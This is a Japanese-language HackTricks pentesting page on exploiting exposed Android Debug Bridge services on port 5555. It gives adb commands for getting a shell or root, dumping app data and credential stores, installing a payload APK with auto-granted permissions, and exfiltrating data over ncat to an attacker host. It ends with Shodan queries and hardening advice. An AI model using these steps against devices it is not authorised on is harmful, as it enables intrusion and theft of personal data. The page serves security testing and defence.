 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 基本情報

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) は、Androidベースのデバイスやエミュレーターと通信するためのコマンドラインツールです。典型的なアクションには、パッケージのインストール、デバッグ、およびデバイス上でのインタラクティブなUnixシェルの取得が含まれます。

- 歴史的なデフォルトTCPポート: 5555 (クラシックな "adb tcpip" モード)。
- 現代のワイヤレスデバッグ (Android 11+) は、TLSペアリングとmDNSサービス発見を使用します。接続ポートは動的で、mDNSを介して発見されます; 5555でない場合もあります。ペアリングは、adb pair host:port の後に adb connect を使用して行います。攻撃的な影響については、以下のノートを参照してください。

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## 接続

ADBが公開され、到達可能である場合は、迅速に接続して列挙を試みてください:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- デバイスがADB認証を強制する場合 (ro.adb.secure=1)、事前に認証されている必要があります (USB RSA認証) またはAndroid 11以上のワイヤレスデバッグペアリングを使用する必要があります (これはデバイスに表示される一時コードが必要です)。
- 一部のベンダーイメージ、エンジニアリング/ユーザーデバッグビルド、エミュレーター、テレビ、STB、および開発キットは、認証なしでadbdを公開するか、adbdがルートとして実行されます。その場合、通常はシェルまたはルートシェルに直接入ります。

一般的なADBコマンドのリファレンスについては、次を参照してください:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## クイックポストエクスプロイテーション

シェルを取得したら、権限とSELinuxコンテキストを検証します:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### データの列挙とキャプチャ

- サードパーティアプリとパスのリスト:
```bash
pm list packages -3
pm path <pkg>
```
- ルート権限がある場合（adb root または su が機能します）、/data に直接アクセスできます。そうでない場合は、デバッグ可能なアプリには run-as を使用してください:
```bash
# ルートなしで、デバッグ可能なアプリの場合
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# ルートあり
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 有用なシステムアーティファクト（ルートが必要）:
- /data/system/users/0/accounts.db および関連する AccountManager データ
- /data/misc/wifi/ （古いバージョンのネットワーク設定/キー）
- /data/data/<pkg> のアプリ固有の SQLite DB と shared_prefs

これを使用して、機密情報（例: アプリの秘密）を取得できます。Chrome データに関する考慮事項についてのメモは、[こちら](https://github.com/carlospolop/hacktricks/issues/274)で参照してください。

### コード実行とペイロード配信

- ランタイム権限をインストールして自動付与:
```bash
adb install -r -g payload.apk         # -g はマニフェストで宣言されたすべてのランタイム権限を付与します
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- アクティビティ/サービス/ブロードキャストを直接開始:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### ポートフォワーディングとピボッティング

ルートなしでも、adb はローカルポートをデバイスポートに、またその逆にフォワードできます。これは、デバイス上でローカルにバインドされたサービスにアクセスしたり、攻撃者のサービスをデバイスに公開したりするのに便利です。

- ホスト->デバイスをフォワード（ホストからデバイスのローカルサービスにアクセス）:
```bash
adb forward tcp:2222 tcp:22       # デバイスが SSH を実行している場合（例: Termux/Dropbear）
adb forward tcp:8081 tcp:8080     # アプリのローカルデバッグサーバーを公開
```
- デバイス->ホストをリバース（デバイスがホスト上のサービスにアクセスできるようにする）:
```bash
adb reverse tcp:1080 tcp:1080     # デバイスアプリは now host:1080 に 127.0.0.1:1080 としてアクセスできます
```
- ソケット経由でのファイル抽出（sdcard 書き込みなし）:
```bash
# ホスト上: リッスン
ncat -lvp 9000 > dump.tar
# デバイス上: ディレクトリを tar として送信（ルートまたは run-as が適用される）
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## ワイヤレスデバッグ (Android 11+)

最新の Android は、デバイス側のペアリングと mDNS 発見を伴う TLS 保護されたワイヤレスデバッグを実装しています:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
ノート
- ポートは動的であり、5555を前提にしないでください。mDNSサービス名は次のようになります：
- _adb-tls-pairing._tcp (ペアリング)
- _adb-tls-connect._tcp (ペア接続)
- _adb._tcp (レガシー/プレーン)
- mDNSがフィルタリングされている場合、古典的なUSB支援による有効化が一部のビルドでまだ機能する可能性があります： `adb tcpip 5555` その後 `adb connect <ip>:5555` （再起動まで）。

攻撃的な含意：デバイスのUIと対話できる場合（例：物理的アクセスまたはモバイルMDMの誤設定）にワイヤレスデバッグを有効にし、ペアリングコードを表示できると、ケーブルなしで長期間のペアADBチャネルを確立できます。一部のOEMは、ペアリングなしでエンジニアリング/開発イメージでTCP経由のADBを公開しています—常に確認してください。

## ハードニング / 検出

防御者は、到達可能なadbd（TCP）が重大なリスクであると仮定すべきです。

- 不要な場合はADBとワイヤレスデバッグを無効にしてください。開発者オプションでUSBデバッグの認証を取り消してください。
- 信頼できないセグメントでのTCP/5555の受信とmDNSベースのADB発見をブロックするネットワークポリシーを確保してください。
- あなたの管理下にあるデバイスで：
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCPリスニングを無効にする（または：adb usbを使用）
stop adbd; start adbd             # デーモンを再起動
```
- 企業ネットワークでのmDNSレコード `_adb._tcp`、`_adb-tls-connect._tcp`、`_adb-tls-pairing._tcp` を監視し、予期しない5555リスナーに対してアラートを出してください。
- 不安全なビルドのインベントリ： `getprop ro.debuggable`、`ro.build.type`、および `ro.adb.secure`。

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 参考文献

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
